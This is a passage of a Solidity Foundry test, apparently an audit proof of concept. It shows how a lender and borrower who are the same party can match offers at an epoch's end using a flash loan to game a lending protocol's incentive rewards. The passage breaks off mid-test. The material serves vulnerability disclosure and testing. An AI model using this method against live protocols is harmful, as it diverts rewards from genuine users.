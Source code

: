 ```solidity
            false,
            ltvsLenders,
            1000,
            9640000,
            86400,
            acceptedCollaterals,
            wETH,
            oraclesCollateral,
            ratioLenders,
            address(0x0),
            5e18
        );
        vm.stopPrank();

        ThirdLendOrder = DLOImplementation(ThirdlendOrderAddress);
        LendOrder = DLOImplementation(lendOrderAddress);
        BorrowOrder = DBOImplementation(borrowOrderAddress);
        SecondLendOrder = DLOImplementation(SecondlendOrderAddress);
    }

    function testFlashLoanGamingIncentives() public {
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        address[] memory collateral = allDynamicData.getDynamicAddressArray(1);
        address[] memory incentiveToken = allDynamicData.getDynamicAddressArray(
            1
        );

        bool[] memory isLend = allDynamicData.getDynamicBoolArray(1);
        uint[] memory amount = allDynamicData.getDynamicUintArray(1);
        uint[] memory epochs = allDynamicData.getDynamicUintArray(1);

        principles[0] = AERO;
        collateral[0] = USDC;
        incentiveToken[0] = AERO;
        isLend[0] = true;
        amount[0] = 100e18;
        epochs[0] = 2;
        deal(AERO, address(this), 10000e18);
        incentivesContract.whitelListCollateral(AERO, USDC, true);

        IERC20(AERO).approve(address(incentivesContract), 1000e18);
        incentivesContract.incentivizePair(
            principles,
            incentiveToken,
            isLend,
            amount,
            epochs
        );
        // Take a flash loan
        vm.warp(block.timestamp + 28 days - 1); // Maching offer at the end of epoch by taking flash loan
        matchOffers(); // Remember lender and borrower are the same person here, i.e firstLender
        vm.warp(block.timestamp + 28 days + 1); // Claiming incentives for both lenders and borrowers
        address[] memory tokenUsed = allDynamicData.getDynamicAddressArray(1);
        tokenUsed[0] = AERO;
        principles[0] = AERO;

        address[][] memory tokensIncentives = new address[][](tokenUsed.length);

        tokensIncentives[0] = tokenUsed;

        uint balanceBefore = IERC20(AERO).balanceOf(firstLender);
```